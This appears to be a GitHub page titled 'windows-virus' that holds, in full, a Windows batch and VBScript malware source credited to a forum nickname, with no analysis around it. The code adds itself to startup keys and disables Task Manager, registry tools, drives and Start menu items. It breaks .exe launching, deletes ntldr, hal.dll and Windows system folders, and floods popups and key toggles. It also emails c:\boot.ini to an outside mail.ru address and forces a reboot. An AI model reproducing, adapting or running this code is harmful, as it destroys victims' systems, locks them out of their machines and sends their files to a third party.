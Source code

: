 # windows-virus
[SRC] Echo_inactive_inactive This virus created by NickName Echo_inactive_inactive Virus: forum.ru Virus Echo_inactive_inactive Autor: NickName Echo_inactive_inactive off echo Chr(39)>%temp%\temp1.vbs echo Chr(39)>%temp%\temp2.vbs echo on error resume next > %temp%\temp.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0 copy %¶§% %SystemRoot%\user32dll.bat reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru">>%temp%\temp.vbs echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru">>%temp%\temp.vbs echo on error resume next > %temp%\temp1.vbs echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs echo do>>%temp%\temp1.vbs echo fso.getfile ("A:\")>>%temp%\temp1.vbs echo loop>>%temp%\temp1.vbs echo on error resume next > %temp%\temp2.vbs echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs echo do>>%temp%\temp2.vbs echo execute"S.Run ""%comspec% /c echo "" &amp; Chr(7), 0, True">>%temp%\temp2.vbs echo loop>>%temp%\temp2.vbs reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f echo set application=createobject("shell.application")>>%temp%\temp.vbs echo application.minimizeall>>%temp%\temp.vbs reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f start rundll32 user32, SwapMouseButton reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f echo i=50 >> %temp%\temp.vbs echo while i^>0 or i^&lt;0 >> %temp%\temp.vbs echo S.popup "forum.whack.ru",0, "forum.whack.ru",0+16 >> %temp%\temp.vbs echo i=i-1 >> %temp%\temp.vbs echo wend >> %temp%\temp.vbs echo do >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{capslock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{numlock}" >> %temp%\temp.vbs echo wscript.sleep 200 >> %temp%\temp.vbs echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs echo loop>> %temp%\temp.vbs echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs echo colCDROMs.Item(i).eject >> %temp%\temp.vbs echo next >> %temp%\temp.vbs echo End If >> %temp%\temp.vbs echo Call SendPost("smtp.mail.ru", "forum.whack.ru@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs echo Set Flds = iConf.Fields >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs echo Flds.Update >> %temp%\temp.vbs echo iMsg.Configuration = iConf >> %temp%\temp.vbs echo iMsg.To = strTo >> %temp%\temp.vbs echo iMsg.From = strFrom >> %temp%\temp.vbs echo iMsg.Subject = strSubject >> %temp%\temp.vbs echo iMsg.TextBody = strBody >> %temp%\temp.vbs echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs echo iMsg.Send >> %temp%\temp.vbs echo End Function >> %temp%\temp.vbs echo Set iMsg = Nothing >> %temp%\temp.vbs echo Set iConf = Nothing >> %temp%\temp.vbs echo Set Flds = Nothing >> %temp%\temp.vbs  echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru"" -f",1 >> %temp%\temp.vbs start %temp%\temp.vbs start %temp%\temp1.vbs start %temp%\temp2.vbs [/SRC]
